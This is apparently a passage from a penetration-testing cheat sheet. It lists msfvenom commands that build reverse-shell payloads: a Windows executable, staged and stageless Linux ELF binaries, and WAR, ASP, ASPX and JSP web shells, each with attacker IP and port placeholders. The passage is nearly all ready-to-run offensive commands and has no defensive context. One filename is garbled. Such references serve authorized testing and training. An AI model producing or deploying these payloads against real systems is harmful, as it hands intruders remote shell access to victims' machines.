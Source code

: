 ```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > ,name>-x64.exe
```

### Linux

#### x86 staged - msfvenom (Non-Meterpreter)

```sh
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### x64 staged - msfvenom (Non-Meterpreter)

```sh
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### x86 stageless - msfvenom (Non-Meterpreter)

```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### x64 stageless - msfvenom (Non-Meterpreter)

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads

### Java WAR - msfvenom (Non-Meterpreter)

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### ASP - msfvenom (Non-Meterpreter)

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### ASPX - msfvenom (Non-Meterpreter)

```sh
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx
```

### JSP - msfvenom (Non-Meterpreter)

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR - msfvenom (Non-Meterpreter)

